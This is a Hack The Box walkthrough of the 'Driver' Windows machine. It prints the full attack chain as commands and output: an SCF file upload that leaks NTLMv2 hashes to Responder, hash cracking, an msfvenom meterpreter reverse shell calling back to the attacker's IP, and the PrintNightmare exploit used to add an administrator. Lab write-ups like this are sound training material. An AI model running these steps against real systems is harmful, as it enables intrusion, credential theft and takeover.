


# Driver

## Nmap

We’ve started with a all ports nmap scan

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.106
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

And now let’s execute a version scan on these open ports

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]                                                                                                                                                       
└─$ sudo nmap -vv -A -Pn -p 80,135,445,5985 10.10.11.106 -oA nmap/driver
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Running (JUST GUESSING): Microsoft Windows 2008|10|7|Vista (90%)
```

Accessing the webserver on our browser, we were able to login to the MFP Firmware Update Center just inserting  `admin:admin`, then we like bypass the login auth page.



Let’s write the hostname `driver.htb` in our hosts file

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ sudo echo '10.10.11.106    driver.htb' | sudo tee -a /etc/hosts
10.10.11.106    driver.htb
                                                                                                                                                                                             
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ cat /etc/hosts       
127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

# HTB Hosts
10.10.11.106    driver.htb
```

Let’s first enumerate the smb service

## Enumeration

### Samba

We’ve tried list some possible shares without input any password

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ smbclient -L //10.10.11.106 -U "" -N                                
session setup failed: NT_STATUS_ACCESS_DENIED
                                                                                                                                                                                             
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ smbclient -L //10.10.11.106 -U "Administrator" -N                                                                                                                                    1 ⨯
session setup failed: NT_STATUS_LOGON_FAILURE
```

We weren’t successful. Now let’s try using the credentials `admin:admin` and `admin:password` 

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ smbclient -L //10.10.11.106 -U "Administrator"
Enter WORKGROUP\Administrator's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
                                                                                                                                                                                             
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ smbclient -L //10.10.11.106 -U "Administrator"                                                                                                                                       1 ⨯
Enter WORKGROUP\Administrator's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
                                                                                                                                                                                             
┌──(th3g3ntl3m4n㉿kali)-[~/htb/Driver]
└─$ smbclient -L //10.10.11.106 -U "admin"                                                                                                                                               1 ⨯
Enter WORKGROUP\admin's password: 
session setup failed: NT_STATUS_LOGON_FAILURE
```

We weren’t successful too.

Navigating on the website, we’ve found a file upload page. 


After a lot of research on the Internet, we’ve got  an article that explain a SCF file attack. First we will create a `scf` file with the content.

```bash
[Shell]

Command=2

IconFile=\\10.10.16.23\share\test.ico

[Taskbar]

Command=ToggleDesktop
```

And named the file by `@jpfdevs.scf`

Now, let’s upload our malicious `scf` file.


Now, let’s run our responder.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation]
└─$ sudo responder -w --lm -v -I tun0

[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:6182661d5957bd1f:679F1A7B3D721FA5A1074EF43B5E5DE2:0101000000000000B89C79596B0ED801DC2A76FBFB3320E300000000020000000000000000000000
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:667325f7372eff31:114D5845E1D44FCAC6FD29F656BC5D06:01010000000000005904725A6B0ED8014DF1A5038961E6BB00000000020000000000000000000000
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:270d8198acb6195c:C549E8FC00D37D346D7BD6B5D2F348C4:0101000000000000E31B715B6B0ED8017ABFBE3989CBB70000000000020000000000000000000000
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:7a4121c0a6a6a5ad:814DAE785E846119E5DFB39F094883D8:01010000000000004F96695C6B0ED801308AF01D2B05D5A000000000020000000000000000000000
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:f8e37d274224ddf5:3722E90B8C8BBF2F2E5091C327D102B7:0101000000000000B2C2605D6B0ED8015BF0A4D054F105F500000000020000000000000000000000
```

Now, let’s crack this hash.

```jsx
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation/tony]
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.5) starting

...

TONY::DRIVER:6182661d5957bd1f:679f1a7b3d721fa5a1074ef43b5e5de2:0101000000000000b89c79596b0ed801dc2a76fbfb3320e300000000020000000000000000000000:liltony
```

We’ve got Tony’s credentials.

| USER | PASSWORD |
| --- | --- |
| tony | liltony |

Let’s see if Tony has any SMB share.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation]
└─$ smbclient -L //10.10.11.106 -U "tony"   
Enter WORKGROUP\tony's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```

Let’s try to login using the WinRM protocol.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation]
└─$ evil-winrm -u tony -p liltony -i 10.10.11.106                                                                                                                                      130 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

We’re in! Let’s enumerate in order to get Administrator user.

First, let’s upload, via evil-winrm, the winpeas.exe tool in order to verify entry points of privilege escalation.

```powershell
*Evil-WinRM* PS C:\Users\tony\Documents> upload /home/th3g3ntl3m4n/htb/images/exploitation/winpeas.exe
Info: Uploading /home/th3g3ntl3m4n/htb/images/exploitation/winpeas.exe to C:\Users\tony\Documents\winpeas.exe

                                                             
Data: 629416 bytes of 629416 bytes copied

Info: Upload successful!
```

Executing it.

```powershell
*Evil-WinRM* PS C:\Users\tony\Documents> Get-Process                                                                                                                                         
                                                                                                                                                                                             
Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName                                                                                                                        
-------  ------    -----      ----- -----   ------     -- -----------
	
    379      22     5152      13872 ...12            1288 spoolsv
    771      27     6112      14220 ...39             292 svchost
    536      20     4980      16940 ...17             660 svchost
    525      17     3432       8872 ...90             700 svchost
   1353      55    15808      37228 ...24             820 svchost
    561      26    11316      18132 ...37             872 svchost
    211      16     1960       8324 ...96             896 svchost
    420      21     4736      17648 ...46             944 svchost
```

Now, we can see that `spoolsv` service is running and probably it’s running as Administrator user. After some research on the Web, we’ve got the following possibly exploit, [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) which is an exploit for the Print Nightmare vulnerability.

| EXPLOIT |
| --- |
| [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) |

Let’s upload the ps1 script to the victim machine.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload /home/th3g3ntl3m4n/htb/images/exploitation/privesc/CVE-2021-1675/printnightmare.ps1
Info: Uploading /home/th3g3ntl3m4n/htb/images/exploitation/privesc/CVE-2021-1675/printnightmare.ps1 to C:\Users\tony\Documents\printnightmare.ps1

                                                             
Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\tony\Documents> dir

    Directory: C:\Users\tony\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/20/2022   8:00 PM         178561 printnightmare.ps1
```

Now, let’s execute it.

```powershell
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

As we can see, the system disabled executions of the powershell scripts. We’ll have to get a meterpreter shell in order to try to execute this script.

First, we generate our payload with msfvenom.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation/privesc]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.23 LPORT=9001 -f exe > jpfdevs.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

Now let’s upload our payload to the host.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload /home/th3g3ntl3m4n/htb/images/exploitation/privesc/jpfdevs.exe
Info: Uploading /home/th3g3ntl3m4n/htb/images/exploitation/privesc/jpfdevs.exe to C:\Users\tony\Documents\jpfdevs.exe

                                                             
Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
```

Now, let’s set up our meterpreter listener on msfconsole.

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.23
LHOST => 10.10.16.23
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.23      yes       The listen address (an interface may be specified)
   LPORT     9001             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.16.23:9001
```

On victim host, we execute.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> .\jpfdevs.exe
```

Back to our listener.

```bash
[*] Sending stage (200262 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.16.23:9001 -> 10.10.11.106:49434 ) at 2022-01-20 18:07:44 -0400

meterpreter > sysinfo
Computer        : DRIVER
OS              : Windows 10 (10.0 Build 10240).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
```

Now, let’s load the powershell module on metasploit and try to execute our script.

```bash
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS >

...

PS > Import-Module .\CVE-2021-1675.ps1
PS > Invoke-Nightmare -NewUser "jpfdevs" -NewPassword "H4ck3r@2021"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user jpfdevs as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Let’s try to login via WinRM with the new user we’ve created.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/images/exploitation/privesc]
└─$ evil-winrm -u jpfdevs -p 'H4ck3r@2021' -i 10.10.11.106  

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\jpfdevs\Documents>
```

Let’s try to access the Administrator directory and get the root flag.

```bash
*Evil-WinRM* PS C:\Users> cd Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/20/2022   6:41 PM             34 root.txt
```

And we’ve got NT\AUTHORITY SYSTEM.

